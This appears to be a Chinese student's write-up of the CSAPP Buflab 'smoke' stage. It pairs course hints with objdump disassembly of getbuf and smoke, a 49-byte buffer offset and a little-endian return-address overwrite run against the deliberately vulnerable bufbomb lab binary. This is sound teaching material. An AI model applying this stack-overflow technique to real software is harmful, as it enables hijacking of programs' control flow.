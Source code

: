 ##### 为帮助同学们快速入门，下面提供一种可能的解题思路:-)

- 使用objdump -d命令获取bufbomb的反汇编源代码，然后重定向到文件中，参考命令如下：`objdump -d bufbomb > bufbomb.s`
- 在bufbomb的反汇编源代码中找到smoke函数，记下它的地址。
- 同样，在bufbomb的反汇编源代码中找到getbuf函数，观察它的栈帧结构。（每位同学实验包里的栈帧地址或大小可能会有所不同）。
- 设计攻击字符串，用来覆盖数组buf，进而溢出并覆盖ebp和ebp上面的返回地址。攻击字符串的大小应该是buf数组大小 + 4（test()原EBP值）+ 4（test()返回地址）字节。其中，前（buf大小 + 4（test()原EBP值））字节可为任意值，最后4字节应该为smoke函数的地址。注意返回地址要用小端格式表示。
- 将上述攻击字符串写在攻击字符串文件中，命名为smoke.txt。smoke.txt文件格式可参考[工具程序hex2raw说明](https://comp3052.p.cs-lab.top/lab1/part1/#52-hex2raw)。

执行getbuf函数时的栈帧:

![image-20230308184823145](C:\文件\大学的摆烂生活\大三下\csapp\lab\Buflab\assets\image-20230308184823145.png)

攻击成功显示如下：

```
linux>cat smoke.txt |./hex2raw |./bufbomb -u 123456789
Userid: 123456789
Cookie: 0x25e1304b
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```

### 过程

在bufbomb.s里找到getbuf：

```
08049c14 <getbuf>:
 8049c14:	55                   	push   %ebp
 8049c15:	89 e5                	mov    %esp,%ebp
 8049c17:	83 ec 38             	sub    $0x38,%esp
 8049c1a:	83 ec 0c             	sub    $0xc,%esp
 8049c1d:	8d 45 cf             	lea    -0x31(%ebp),%eax
 8049c20:	50                   	push   %eax
 8049c21:	e8 5e fa ff ff       	call   8049684 <Gets>
 8049c26:	83 c4 10             	add    $0x10,%esp
 8049c29:	b8 01 00 00 00       	mov    $0x1,%eax
 8049c2e:	c9                   	leave  
 8049c2f:	c3                   	ret  
```

发现获取字符串的空间为0x31=49字节，找到smoke地址为：0x8049417

```
08049417 <smoke>:
 8049417:	55                   	push   %ebp
 8049418:	89 e5                	mov    %esp,%ebp
 804941a:	83 ec 08             	sub    $0x8,%esp
 804941d:	83 ec 0c             	sub    $0xc,%esp
 8049420:	68 08 b0 04 08       	push   $0x804b008
 8049425:	e8 16 fd ff ff       	call   8049140 <puts@plt>
 804942a:	83 c4 10             	add    $0x10,%esp
 804942d:	83 ec 0c             	sub    $0xc,%esp
 8049430:	6a 00                	push   $0x0
 8049432:	e8 ab 09 00 00       	call   8049de2 <validate>
 8049437:	83 c4 10             	add    $0x10,%esp
 804943a:	83 ec 0c             	sub    $0xc,%esp
 804943d:	6a 00                	push   $0x0
 804943f:	e8 0c fd ff ff       	call   8049150 <exit@plt>
```
